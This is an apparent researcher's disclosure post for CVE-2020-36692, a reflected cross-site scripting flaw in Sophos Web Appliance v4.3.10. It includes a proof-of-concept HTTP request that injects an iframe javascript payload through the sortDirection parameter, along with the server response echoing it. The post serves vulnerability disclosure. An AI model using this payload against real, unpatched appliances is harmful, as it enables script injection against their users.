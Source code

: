 ```yaml
---
layout: post
title:  "Cross-site scripting (XSS) in Sophos Web Appliance - v4.3.10"
date:   2023-04-30 19:51:02 +0700 
categories: [cve]
---
```


Vendor: Sophos

Product: Sophos Web Appliance

Version affected: v4.3.10

#### Product description:
The Sophos Web Appliance is designed to function as a web proxy that provides HTTP security at. the gateway. Potentially risky content is scanned for various forms of malware.

"Sophos Web Appliance (SWA) and Sophos Management Appliance (SMA) will reach End of Life (EOL) on 20 July 2023. When this happens, the products will continue to pass traffic but will no longer receive security or software updates. Cloud services with functions such as support services and LiveConnect will be turned off."

* CVE ID: CVE-2020-36692
* CWE ID: CWE-79

#### #Proof of Concept

Reflected cross-site scripting (XSS) vulnerability was discovered in the product.

A cross-site scripting vulnerability was identified.

It was possible to inject malicious code, I've successfully embedded a script in the response, which allowed me to execute it when the page loaded in the browser.

Tested on Firefox browser 76.0.1 (as of 15 May 2020, when it was reported to Sophos).

Vulnerable input section were possible to set to:
sortDirection and sortKey

The following Proof of Concept (PoC) demonstrates the attack as well as displaying evidence of the script payload being returned in the response. 

#### PoC:
{% highlight ruby %}
POST /index.php?c=report_scheduler HTTP/1.1
Content-Length: 116
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Host: 10.0.0.15
X-Requested-With: XMLHttpRequest
X-Prototype-Version: 1.6.1
Connection: keep-alive
Origin: https://10.0.0.15
Referer: https://10.0.0.15/index.php?c=report_scheduler&section=reports&STYLE=ea200102606123fe0ea40688110d6d0f
Accept: text/javascript, text/html, application/xml, text/xml, */*
Content-type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Language: en-US

action=load&sortKey=name&sortDirection=asc<iframe src=javascript:alert(1) &STYLE=4de217dd48aa30993948de8601493ef2&_=

HTTP/1.1 200 OK
Date: Fri, 15 May 2020 08:30:27 GMT
Server: Apache
Cache-Control: no-store, no-cache, must-revalidate, private, post-check=0, pre-check=0
Pragma: no-cache
X-Frame-Options: sameorigin
X-Content-Type-Options: nosniff
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=utf-8
Content-Length: 144

{"sortKey":"name","sortDirection":"asc<iframe src=javascript:alert(1) ","schedulesJS":[],"schedulesList":"<ul id=\"table_entries_list\"><\/ul>"}
{% endhighlight %}

Visual representation of the vulnerability.
                                                  
![Java Script executed when the page loads in the user's browser](/static/img/SWA - 4.3.10 -1.png)
![User's browser](/static/img/SWA - 4.3.10 -2.png)
![SWA system](/static/img/SWA - 4.3.10 -3.png)  
  
#### References:
1. https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
2. https://support.sophos.com/support/s/article/KB-000039441?language=en_US
3. https://docs.sophos.com/nsg/swa/help/en-us/nsg/swa/concepts/AboutYourAppliance.html
4. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-36692
5. https://www.sophos.com/en-us/security-advisories/sophos-sa-20230404-swa-rce                                                 
6. https://www.sophos.com/en-us/content/product-lifecycle                                              
